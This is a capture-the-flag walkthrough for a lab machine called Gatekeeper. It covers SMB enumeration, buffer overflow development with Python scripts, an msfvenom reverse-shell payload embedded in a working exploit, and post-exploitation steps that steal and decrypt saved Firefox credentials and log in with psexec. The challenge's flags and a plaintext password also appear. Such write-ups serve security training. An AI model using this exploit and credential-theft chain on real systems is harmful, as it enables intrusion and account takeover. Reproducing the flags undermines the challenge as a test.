 # Gatekeeper
## 21-06-2022
## level : medium

> Machine IP : `10.10.58.163`

## Defeat the gatekeeper and pass through the fire

First Scan the machine using the nmap 
```
nmap -sV 10.10.58.163 nmap.txt
```
We can see that the smb port is open. Now we will try to list the smb shares
```
smbclient -L 10.10.58.163
```

In there we can see that we have a share called Users. Let's connect to it
```
smbclient \\\\10.10.58.163\\Users
```

Now we see that there is several folders and there is a file named `gatekeeper.exe`. Download it and start exploiting it into a lcoal vm

```
get gatekeeper.exe
```

### we will use the immunity debugger, windows 10 vm to exploit this machine.

Create a pattern to exploit 
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
```

Find the offset of the exploit ( Note the value of `ESP` and put as the `-q` parameter value)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 39654138

```

I've used the following code to confirm the overflow (change the `IP`)

```
#!/usr/bin/python

import sys
import socket

buffer = b'A'*146 + b'B'*4

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('10.10.2.7', 31337))
        s.send((buffer + b'\r\n'))
        s.close()
except:
        print("Can't Connect")
finally:
        sys.exit()

```

To Find the badchars I've used the following python script

```
#!/usr/bin/python

import sys
import socket


badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
buffer = b'A'*146 + b'B'*4

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('10.10.2.7', 31337))
        s.send((buffer + badchars + b'\r\n'))
        s.close()
except:
        print("Can't Connect")
finally:
        sys.exit()


```
Using the following module to find the `JMP` hex value
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```
And we Use the `JMP ESP` Command to find out that the JMP code is `FFE4`

Finding the badchars using mona (in immunity debugger in windows)
```
!mona modules
!mona find -s "\xff\xe4" -m gatekeeper.exe
```
Note down the address of the `TOP` value of target


Generating the payload (Change the `IP`)

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.17.48.110 LPORT=4444 EXITFUNC=thread -f python -a x86 -b "\x00\x0A"

```
Now run `msfconsole` and setup `multi/handler` for getting the shell in local machine

Use the following script to exploit the machine and get a shell ( Change the `buf` values and `IP`

```
#!/usr/bin/python

import sys
import socket


buf =  b""
buf += b"\xda\xdd\xd9\x74\x24\xf4\xb8\xdb\x89\x9b\xdf\x5a\x29"
buf += b"\xc9\xb1\x5e\x31\x42\x1a\x03\x42\x1a\x83\xc2\x04\xe2"
buf += b"\x2e\x75\x73\x50\xd0\x86\x84\x0f\xe1\x54\x0d\x2a\x65"
buf += b"\xd2\x5c\x85\xee\xb6\x6c\x6e\xa2\x22\x62\xc7\x08\x6d"
buf += b"\xf7\x55\xa4\x40\xf8\xab\x74\x0e\x3a\xad\x08\x4d\x6f"
buf += b"\x0d\x31\x9e\x62\x4c\x76\x68\x08\xa1\x2a\xe0\xa0\x2d"
buf += b"\x9d\x7d\x06\x72\x20\x52\x0c\xca\x5a\xd7\xd3\xbf\xd6"
buf += b"\xd6\x03\xb4\xae\xc0\xf3\x40\x76\xd1\xf2\x85\x03\xd8"
buf += b"\x81\x15\x3a\x24\x20\xed\x08\x51\xb2\x27\x41\xa5\x19"
buf += b"\x06\x6e\x28\x63\x4e\x48\xd3\x16\xa4\xab\x6e\x21\x7f"
buf += b"\xd6\xb4\xa4\x60\x70\x3e\x1e\x45\x81\x93\xf9\x0e\x8d"
buf += b"\x58\x8d\x49\x91\x5f\x42\xe2\xad\xd4\x65\x25\x24\xae"
buf += b"\x41\xe1\x6d\x74\xeb\xb0\xcb\xdb\x14\xa2\xb3\x84\xb0"
buf += b"\xa8\x51\xd2\xc5\x50\xaa\xdb\x9b\xc6\x67\x16\x24\x17"
buf += b"\xef\x21\x57\x25\xb0\x99\xff\x05\x39\x04\x07\x1f\x2d"
buf += b"\xb7\xd7\xa7\x3d\x49\xd8\xd7\x14\x8e\x8c\x87\x0e\x27"
buf += b"\xad\x43\xce\xc8\x78\xf9\xc4\x5e\x89\xef\xe8\xf0\xe5"
buf += b"\x0d\x08\x1c\xaa\x98\xee\x4e\x02\xcb\xbe\x2e\xf2\xab"
buf += b"\x6e\xc7\x18\x24\x51\xf7\x22\xee\xfa\x92\xcc\x47\x53"
buf += b"\x0b\x74\xc2\x2f\xaa\x79\xd8\x4a\xec\xf2\xe9\xab\xa3"
buf += b"\xf2\x98\xbf\xd4\x64\x63\x3f\x25\x01\x63\x55\x21\x83"
buf += b"\x34\xc1\x2b\xf2\x73\x4e\xd3\xd1\x07\x88\x2b\xa4\x31"
buf += b"\xe3\x1a\x32\x7e\x9b\x62\xd2\x7e\x5b\x35\xb8\x7e\x33"
buf += b"\xe1\x98\x2c\x26\xee\x34\x41\xfb\x7b\xb7\x30\xa8\x2c"
buf += b"\xdf\xbe\x97\x1b\x40\x40\xf2\x1f\x87\xbe\x81\x37\x20"
buf += b"\xd7\x79\x08\xd0\x27\x13\x88\x80\x4f\xe8\xa7\x2f\xa0"
buf += b"\x11\x62\x78\xa8\x98\xe3\xca\x49\x9d\x29\x8a\xd7\x9e"
buf += b"\xde\x17\xe7\xe5\xaf\xa8\x08\x1a\xa6\xcc\x08\x1b\xc6"
buf += b"\xf2\x35\xca\xff\x80\x78\xcf\xbb\x8b\x66\xe5\xb1\x23"
buf += b"\x3f\x6c\x78\x2e\xc0\x5b\xbf\x57\x43\x69\x40\xac\x5b"
buf += b"\x18\x45\xe8\xdb\xf1\x37\x61\x8e\xf5\xe4\x82\x9b"


#080414c3
buffer= b'A'*146 + b'\xc3\x14\x04\x08' + b'\x90'*32 + buf

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('10.10.2.7', 31337))
        s.send((buffer + b'\r\n'))
        s.close()
except:
        print("Can't Connect")
finally:
        sys.exit()


```

### Exploiting the gatekeeper

Just Change the `IP` to `MACHINE_IP` and run the exploit after setting up `multi/handler` with the `VPN_IP` in `msfconsole`

after getting a shell from gatekeeper try to upgrade the generic shell to a meterpreter shell
```
use post/multi/manage/shell_to_meterpreter
```
Set up the options and `exploit`

### Privilege Escalation

We wiill enumerate all the applications installed on the target 
```
run post/windows/gather/enum_applications
```
Now we can see that there `FireFox` is installed. So we will try to collect the saved credentials

```
run post/multi/gather/firefox_creds
```

Now just rename the files with their original names mentioned at the first of each line.

We Will use the `https://github.com/unode/firefox_decrypt.git ` repository to decrypt the credentials (specify the loot folder at the end)

```
python firefox_decrypt.py ~/Desktop/temp/loot
```

Connecting as the mayor
```
python /usr/share/doc/python3-impacket/examples/psexec.py mayor:8CL7O1N78MdrCIsV@10.10.58.163

```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Locate and find the user flag | {H4lf_W4y_Th3r3} | 
| Locate and find the root flag | {Th3_M4y0r_C0ngr4tul4t3s_U} |









--------------------------    THE END    -------------------------- 
